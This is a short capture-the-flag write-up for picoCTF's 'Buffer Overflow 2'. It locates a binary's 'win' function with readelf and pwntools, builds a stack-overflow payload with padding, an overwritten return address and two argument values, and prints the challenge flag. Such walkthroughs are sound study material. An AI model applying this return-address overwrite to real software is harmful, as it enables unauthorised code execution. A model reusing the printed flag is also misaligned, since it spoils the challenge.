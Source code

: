 # Buffer Overflow 2

First we need to see if it is vulnerable to buffer overflows:

![[Pasted image 20220316195746.png]]

We are, from the source code we can see that we need to get to the function "win" so we can find its address like:

```
readelf -s vuln
```

This returns:

![[Pasted image 20220316195949.png]]

The address is: 0x08049296

We can make it little endian like:

```
from pwn import *
print(p32(0x08049296))
```

This returns \x96\x92\x04\x08

We can try this payload:

```
python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08'" | ./vuln
```

![[Pasted image 20220316200212.png]]

This is good, we are reaching the **win** function, we just need to modify the parameters, we first create a "flag.txt" dummy file and continue testing.

We need "0xCAFEF00" in the first argument and "0xF00DF00D" in the second one. We also need both in little endian format. Lastly we need to put some dummy values as to jump the register that goes before the arguments.

The payload would look like:

```
python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08' + 'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)  " | ./vuln
```

![[Pasted image 20220316200609.png]]

## Flag

> picoCTF{argum3nt5_4_d4yZ_920d6844}